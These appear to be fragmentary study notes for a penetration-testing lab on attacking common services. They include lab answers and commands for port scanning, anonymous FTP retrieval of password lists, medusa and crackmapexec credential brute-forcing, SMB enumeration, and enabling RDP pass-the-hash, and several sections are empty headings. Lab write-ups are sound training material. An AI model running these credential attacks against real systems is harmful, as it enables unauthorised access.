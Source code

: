 # Attacking Common Services

<figure><img src=".gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

## FTP

### Attacking FTP

**What port is the FTP service running on?**

* `nmap 10.129.27.170 -sVC`
  * FTP on port 2121

**What username is available for the FTP server?**

`ftp anonymous@<IP> 2121`

`get users.list`&#x20;

`get passwords.list`

* try users from the list...
  * second one (robin) working

**Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer.**

`medusa -u robin -P passwords.list -h 10.129.205.248 -n 2121 -M ftp`

`ssh robin@10.129.205.248`

* PW
* cat flag.txt

## SMB

### Attacking SMB



`smbclient -L //10.129.205.248/`

`smbmap -H 10.129.205.248`

<figure><img src=".gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

* GGJ

`smbclient -H //10.129.205.248 -r GGJ`

<figure><img src=".gitbook/assets/image (343).png" alt=""><figcaption></figcaption></figure>

* cant obtain it

`poetry run crackmapexec smb 10.129.203.6 -u jason -p pws.list --local-auth`

* obtain pws.list from resources...

<figure><img src=".gitbook/assets/image (345).png" alt=""><figcaption></figcaption></figure>

## SQL Databases

### Attacking SQL Databases

## RDP

### Attacking RDP

<figure><img src=".gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

* connect via RDP

**What is the name of the file that was left on the Desktop? (Format example: filename.txt)**

* pentest-notes.txt

**Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?**

* DisableRestrictedAdmin

**Connect via RDP with the Administrator account and submit the flag.txt as you answer.**

*

## DNS

### Attacking DNS

## SMTP

### Attacking Email Services

## Skills Assessment

### Easy

### Medium

### Hard
